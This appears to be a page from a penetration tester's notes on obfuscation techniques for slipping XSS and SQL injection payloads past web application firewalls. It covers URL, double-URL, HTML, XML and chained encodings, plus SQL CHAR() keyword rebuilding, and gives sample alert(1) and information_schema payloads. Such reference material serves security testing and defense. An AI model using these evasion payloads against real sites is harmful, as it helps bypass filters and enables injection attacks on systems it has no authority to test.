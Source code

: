 # General Obfuscation

{% hint style="info" %}
**Note**: for Javascript obfuscation go on [javascript-security-considerations.md](javascript-security-considerations.md "mention")
{% endhint %}

## <mark style="color:purple;">URL encoding</mark> <a href="#obfuscation-via-url-encoding" id="obfuscation-via-url-encoding"></a>

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### <mark style="color:purple;">Double URL encoding</mark> <a href="#obfuscation-via-double-url-encoding" id="obfuscation-via-double-url-encoding"></a>

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### <mark style="color:purple;">HTML encoding</mark> <a href="#obfuscation-via-html-encoding" id="obfuscation-via-html-encoding"></a>

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

## <mark style="color:purple;">XML encoding</mark>

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

## <mark style="color:purple;">Multiple encodings</mark> <a href="#obfuscation-via-multiple-encodings" id="obfuscation-via-multiple-encodings"></a>

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

## <mark style="color:purple;">SQL CHAR() function</mark> <a href="#obfuscation-via-the-sql-char-function" id="obfuscation-via-the-sql-char-function"></a>

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
